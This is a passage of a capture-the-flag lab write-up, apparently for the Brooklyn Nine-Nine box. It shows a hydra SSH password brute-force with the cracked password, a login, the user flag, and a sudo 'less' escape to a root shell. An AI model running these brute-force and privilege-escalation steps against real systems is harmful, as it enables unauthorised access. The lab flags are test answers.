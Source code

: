 I really dont like `Stenography` so we dont continue here. If you want the full puzzle you have to download the picture and try to get the hidden files out of it.



### Enumerate Port 22 (SSH) 

After reading the note from `Amy` we know that `jakes` password is potentially weak. Lets try to crack it.

I use for that `hydra`:

```bash
┌──(admin㉿PREDATOR-01)-[~]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.195.140
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-18 15:12:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.195.140:22/
[22][ssh] host: 10.10.195.140   login: jake   password: 987654321

```

And after a short time we get the password `987654321`... Well done `jake`.

We can connect now via `ssh`:

`ssh jake@10.10.195.140`


And we can check the user profiles for the flag:
```bash
jake@brookly_nine_nine:/home/holt$ cat user.txty
ee11cbb19052e40b07aac0ca060c23ee

```

User flag: `ee11cbb19052e40b07aac0ca060c23ee`



### Enumerate privileges


We check what we are allowed to do via `sudo -l`: 



Okay this seems very nice, we can just use `less` to get `root privileges`:

```bash
jake@brookly_nine_nine:/home/holt$ sudo /usr/bin/less /etc/hosts
```
Using `!sh` to spawn an interactive shell with root permissions. Lets grab the `root flag`:

